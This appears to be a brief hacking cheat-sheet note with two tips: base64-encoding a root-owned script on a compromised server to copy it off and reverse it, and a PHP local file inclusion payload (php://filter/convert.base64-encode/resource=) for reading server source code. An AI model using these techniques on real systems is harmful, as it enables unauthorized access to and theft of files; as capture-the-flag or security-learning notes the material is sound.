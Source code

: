 <h1>Privilege Escalation:</h1><br>
If you found a command escalation vulnerability and now want to escalate your priviliges and if a executable has root permissions. You Can't read or execute the file then
try 




```
on the server
base64 -w 0 **scripthere**
copy it all up
on your machine
echo *paste* | base64 -d > script.sh
```




This will get you a hold of the script. You can further reverse the file.
<br>

<h1>Trying To Exploit An LFI:</h1><br>
Use:<br>
?page=php://filter/convert.base64-encode/resource=
<br>
Decode the base64 text. Will help a lot.
